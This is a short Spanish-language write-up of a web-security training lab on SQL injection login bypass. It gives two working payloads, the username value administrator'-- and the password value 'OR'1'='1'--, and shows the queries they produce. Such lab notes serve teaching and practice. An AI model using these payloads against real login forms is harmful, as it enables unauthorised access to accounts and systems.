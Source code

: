 # 02 Lab: SQL injection vulnerability allowing login bypass

## Objetivo

```bash
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
```

## Solución

1. Modificamos el campo `usuario` utilizando el valor `administrator'--`  De esta manera podremos acceder al panel de administración

```sql
SELECT * FROM USERS WHERE username = '$user' and password = '$password'
$usuario = "administrator'-- "
SELECT * FROM USERS WHERE username = 'administrator'--' and password = '$password'

```

![image.png](02%20Lab%20SQL%20injection%20vulnerability%20allowing%20login%20%2017efab5460ec812eac15d047a4ae98af/image.png)

## Alternativa

1. Cambiamos los parámetros `usuario` y `contraseña` con los campos  `administrator` y `'OR'1'='1'--`

```sql
$usuario = "administrator"
$contraseña = "'OR'1'='1'--"
SELECT * FROM USERS WHERE username = 'administrator' and password = '' OR '1'='1'--

```